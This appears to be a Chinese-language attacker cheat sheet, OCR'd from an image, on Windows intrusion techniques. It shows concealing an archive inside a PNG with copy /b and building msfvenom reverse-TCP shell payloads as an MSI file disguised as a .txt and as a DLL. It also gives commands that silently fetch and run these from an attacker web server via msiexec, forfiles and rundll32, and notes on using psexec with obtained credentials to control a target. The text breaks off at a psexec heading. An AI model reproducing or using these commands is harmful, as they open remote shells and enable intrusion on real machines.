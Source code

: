 copy 1.png /b + 2.rar /b 3.png

合并1.png和2.rar为3.png

有的时候可以用图片打开，也可以用rar打开

## 木马

生成一个txt木马（使用msi执行）

msfvenom -p windows/x64/shell/reverse_tcp lhost=[黑客ip] lport=4444 -f msi > haha.txt

把haha.txt放到某个web目录里

msi=静默安装包

默认位置：

c:/windows/system32/msiexec.exe

c:/windows/syswow64/msiexec.exe

远程加载木马到电脑上运行

msiexec /q /i [http://web的ip/haha.txt](http://xn--webip-k81m/haha.txt)

dll

msfvenom -p windows/x64/shell/reverse_tcp lhost=[黑客ip] lport=4444 -f dll > haha.dll

msiexec /y haha.dll

rundll32.exe shell32.dll,Control_RunDLL ./haha.dll

------

forfiles执行

forfiles.exe /q c:\windows\system32 /m cmd.exe /c “msiexec /q /i [http://web的ip/msi.txt"](http://xn--webip-k81m/msi.txt")

------

## pstools

微软官方自带的系统插件

准备工作：

1.目标主机的防火墙最好关闭

2.创建/获得对方计算机的用户名密码

直接控制对方cmd

psexec \目标ip -u [目标用户名] -p [密码] cmd.exe

控制对方电脑运行自己的c盘的xk.exe

psexec \目标ip -u [目标用户名] -p [密码] -c c:\xk.exe

远程运行对方电脑的notepad.exe
